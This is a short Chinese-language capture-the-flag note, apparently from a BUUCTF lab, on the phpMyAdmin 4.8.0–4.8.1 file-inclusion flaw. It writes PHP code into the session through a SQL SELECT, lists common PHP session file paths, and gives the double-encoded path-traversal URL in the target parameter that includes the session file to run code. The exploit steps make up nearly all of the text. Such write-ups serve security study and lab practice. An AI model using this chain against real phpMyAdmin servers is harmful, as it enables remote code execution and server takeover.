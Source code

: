 phpmyadmin 4.8.0-4.8.1任意文件包含转代码执行漏洞

首先执行

* [select](http://a1a36f9f-98a3-4fee-8569-9e36f1bfcf7b.node3.buuoj.cn/phpmyadmin/url.php?url=https://dev.mysql.com/doc/refman/5.5/en/select.html) "<?php phpinfo()?>" 
* 然后找到cookie中的session id
* 还暴露了phpinfo.php，访问找到其中的session保存位置，/var/lib/php/sessions/sess_PHPSESSID

* 其他常见的保存地址 
  * /var/lib/php/sessions/sess_PHPSESSID
  * /var/lib/php/sess_PHPSESSID
  * /tmp/sess_PHPSESSID
  * /tmp/sessions/sess_PHPSESSID

* 然后访问
  * index.php?target=db_sql.php%253f/../../../../../../../../../var/lib/php/sessions/sess_23usbf5cta4irltnq7607o6d5p
  * 即可执行代码
